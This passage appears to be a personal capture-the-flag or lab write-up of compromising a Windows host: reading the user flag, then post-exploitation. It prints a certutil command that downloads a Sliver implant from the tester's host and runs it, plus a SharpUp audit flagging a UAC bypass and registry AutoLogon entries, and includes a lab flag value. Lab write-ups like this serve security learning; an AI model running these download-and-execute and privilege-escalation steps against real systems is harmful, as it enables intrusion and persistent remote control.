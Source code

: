 # Getting a foothold

It shells:

![[Pasted_image_20251026063455.png]]

Flag
```sh
C:\Users\rainbow\Desktop>type user.txt
type user.txt
881288e2cd563fa856fcb4163b91ec06
```


# Post-exploitation enumeration

Need to upgrade my shell to something a little more feature rich, reliable, etc.

Download  a Sliver implant to the host
```sh
C:\rainbow>certutil -urlcache -f -split http://10.10.14.204:8083/10.10.14.204.exe \windows\tasks\a.exe
certutil -urlcache -f -split http://10.10.14.204:8083/10.10.14.204.exe \windows\tasks\a.exe
****  Online  ****
  000000  ...
  988a00
CertUtil: -URLCache command completed successfully.
```

The current shell env is 32 bit (of course), but the system is 64bit
```sh
C:\rainbow>set proc
set proc
PROCESSOR_ARCHITECTURE=x86
PROCESSOR_ARCHITEW6432=AMD64
PROCESSOR_IDENTIFIER=AMD64 Family 25 Model 1 Stepping 1, AuthenticAMD
PROCESSOR_LEVEL=25
PROCESSOR_REVISION=0101
```

So I will use 64bit cmd.exe to launch the sliver implant.
```sh
C:\rainbow>c:\windows\sysnative\cmd.exe /c \windows\tasks\a.exe
c:\windows\sysnative\cmd.exe /c \windows\tasks\a.exe
```

Sharpup audit, found that UAC can be bypassed.
```sh
sliver (REMOTE_JACKAL) > sharpup -t 300 -i -- audit

[*] sharpup output:

=== SharpUp: Running Privilege Escalation Checks ===

[*] In medium integrity but user is a local administrator- UAC can be bypassed.

[*] Audit mode: running an additional 15 check(s).
Registry AutoLogon Found

[!] Modifialbe scheduled tasks were not evaluated due to permissions.

=== Registry AutoLogons ===
```

